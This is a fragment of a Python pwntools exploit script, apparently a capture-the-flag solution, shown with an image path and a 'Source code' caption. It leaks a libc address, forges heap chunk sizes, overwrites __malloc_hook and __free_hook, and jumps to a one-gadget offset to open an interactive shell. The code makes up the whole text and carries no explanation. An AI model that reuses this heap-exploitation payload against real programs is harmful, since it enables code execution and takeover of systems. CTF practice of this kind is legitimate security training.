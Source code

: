```python

edit_content(100, pay)
show_content()

libc = int(''.join(p.recvuntil("7f")[-17:].split(" ")[::-1]), 16) - 96 - 0x10 - l.sym['__malloc_hook']
log.info('[Libc] : ' + hex(libc))

pay = 'x'*6
pay += p64(0)
pay += p64(0x81)
pay += 'A'*0x10
pay += p64(0)*3
pay += p64(0x71)

pay += 'W'*2
pay += p64(0x181)
pay += p64(0)
pay += p64(0x11)

pay = pay.ljust(100, 'W')
edit_content(100, pay)
#edit_filename(10, 'a')
#edit_filename(10, 'a')

pay = 'a'*6
pay += p64(0)
pay += p64(0x101) # unsorted size
pay += p64(0x41414141414141)
#pay += p64(heap+0x2bb0)
pay += p64(libc + l.sym['__malloc_hook'] + 96 + 0x10)

pay += '\\x00'*2
pay += p64(0x71)
pay += p64(libc + l.sym['__free_hook'])
pay = pay.ljust(0x70-2, 'z')
pay += '\\x21\\x00'
edit_content(0x70, pay)

p.sendafter("> ", 'd') # delete file

select('flag')
p.sendafter("> ", 'd') # delete file

create(0x8, '/bin/sh\\x00')
select('/bin/sh\\x00')

edit_content(0x40, 'q')

one = [0x10a428, 0x10a41c, 0xe5622, 0xe561e, 0xe5617, 0xe546f,0x4f432,0x4f3d5]
#pay = p64(libc + l.sym['system'])
#pay = p64(libc + 0x4f432)
#pay = p64(libc + 0x10a41c)
#pay = p64(libc + 0x4f3d5)

pay = p64(libc + one[4])
edit_content(0x60, pay)
#back("N")
p.interactive()

```
